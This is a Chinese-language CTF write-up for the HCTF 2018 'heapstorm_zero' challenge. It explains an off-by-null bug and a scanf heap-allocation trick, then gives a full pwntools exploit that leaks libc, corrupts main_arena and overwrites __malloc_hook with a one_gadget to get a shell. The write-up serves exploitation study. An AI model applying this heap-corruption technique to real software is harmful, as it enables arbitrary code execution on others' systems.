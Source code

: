 ```yaml
---
title: hctf heapstorm
date: 2018-11-13 00:00:00
categories:
- CTF/Pwn
tags:  Pwn
---
```


## heapsorm

比赛的时候没做出来，想破了头也没找到怎么在只有0x20-0x40大小的fastbin的情况下利用offbynull来getshell，当时还以为真有这种方法没有学到

漏洞点很简单，就是个offbynull

```c
unsigned __int64 __fastcall sub_EE0(_BYTE *a1, __int64 a2)
{
  _BYTE *v2; // rbx
  signed __int64 v3; // rdx
  _BYTE *v4; // rax
  bool v5; // zf
  char buf; // [rsp+7h][rbp-31h]
  unsigned __int64 v8; // [rsp+8h][rbp-30h]

  v8 = __readfsqword(0x28u);
  if ( a2 )
  {
    v2 = a1;
    while ( 1 )
    {
      buf = 0;
      if ( read(0, &buf, 1uLL) < 0 )
      {
        puts("Read error!!\n");
        exit(1);
      }
      v4 = v2;
      v5 = buf == 10;
      *v2 = buf;
      if ( v5 )
        break;
      v3 = (signed __int64)&(v2++)[1LL - (_QWORD)a1];
      if ( v2 == &a1[a2] )
      {
        v4 = &a1[v3];
        break;
      }
    }
  }
  else
  {
    v4 = a1;
  }
  *v4 = 0;
  return __readfsqword(0x28u) ^ v8;
}
```

当输入content没有\n而且长度为len的时候会在之后添加一个\x00

整个程序严格来说就这里一个漏洞点，正常情况下的offbynull只有fastbin是不能用的，起码要搞出来一个unsortedbin才能行，然后我就苦思冥想怎么搞出来一个unsortedbin，当时想的是利用offbynull耗尽topchunk，然后fastbin就会合并，但是题目中的fastbin数量太小，而且范围也太小了，行不通

于是乎我就觉得这个题目还有别的洞我没找到，以为可以在他mmap一个随即地址的时候做些文章，然而并没有利用点

赛后请教大佬才知道scanf会分配堆上内存，而这个scanf是题目中读取choice的时候的。。。真的是藏得深，当时根本没想到。只要输入一个过长的字符串就可以在堆上分配buf，然后就可以合并fastbin搞出来一个unsortedbin了，剩下的就是一些繁琐的堆风水了。值得注意的一点是只有fastbin的利用offbynull的话没有正常模式下那么简单，还是有一点点绕的

我本人利用的方法是main_arena attack 劫持topchunk，比较繁琐，house of orange 可能简单一些

下面是exp：

```python

from pwn import *
context.log_level = 'debug'
binary = './heapstorm_zero'
libc = ELF('libc64.so')
env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./pwn/hctf/libc64.so")}
io = process(binary,env = env)
token = 'oirfqEdvVZHMPzzAsTMcRxfYASwHb3Hv'
def choice(c):
	io.recvuntil('Choice:')
	io.sendline(c)
def add(size,content):
	choice('1')
	io.recvuntil('size:')
	io.sendline(str(size))
	io.recvuntil('content:')
	io.send(content)
def delete(index):
	choice('3')
	io.sendline(str(index))
def p():
	gdb.attach(io)
	raw_input()
def main():
	add(0x38,'\n')#0
	add(0x38,'\n')#1
	add(0x38,'\n')#2
	add(0x38,'\n')#3
	add(0x38,'\n')#4
	add(0x38,'\n')#5
	add(0x38,'\n')#6
	#---
	add(0x38,'\n')#7
	add(0x38,'\n')#8
	for i in range(6):
		delete(i+1)
	choice('1'*0x2000)
	add(0x38,'A'*0x38)#1
	add(0x28,'B'*0x20 + '\x40'+'\n')#2
	add(0x30,'C'*0x30)#3
	add(0x20,'DDDDD\n')#4
	delete(2)
	choice('1'*0x2000)
	delete(7)
	choice('1'*0x2000)
	#---
	add(0x28,'B'*0x20+'\n')#2
	add(0x28,'XXXX\n')#5
	add(0x28,'YYYY\n')#6
	#---
	choice('2')
	io.recvuntil('index:')
	io.sendline(str(3))
	io.recvuntil('Content: ')
	leak = u64(io.recv(6).ljust(8,'\x00'))
	libc_base = leak - libc.symbols['__malloc_hook'] - 0x10 - 0x58
	log.success(hex(libc_base))
	add(0x30,'hack1\n')#7 3
	add(0x20,'hack2\n')#9 4
	add(0x30,'\n')#10
	add(0x20,'\n')#11
	delete(9)
	delete(11)
	delete(4)
	add(0x20,p64(0x41)+'\n')#4
	add(0x20,'\n')#9
	add(0x20,'\n')
	target = libc_base + libc.symbols['__malloc_hook'] + 0x10 + 0x8
	delete(7)
	delete(10)
	delete(3)
	add(0x30,p64(target)+'\n')#3
	add(0x30,'\n')#7
	add(0x30,'hack\n')#10 3
	target = target + 0x28
	add(0x30,p64(0)*4 + p64(0x41)+'\n')#11
	delete(10)
	delete(7)
	delete(3)
	add(0x30,p64(target)+'\n')#3
	add(0x30,'\n')#7
	add(0x30,'hack\n')#10 3
	add(0x38,p64(0)*0x3 + p64(libc_base + libc.symbols['__malloc_hook'] - 0x18) + p64(0)+p64(leak)*2)
	one = 0xf02a4 + libc_base
	add(0x38,p64(one)*4+'\n')
	#---
	delete(10)
	delete(3)
	io.interactive()
	#---
if __name__ == '__main__':
	main()

```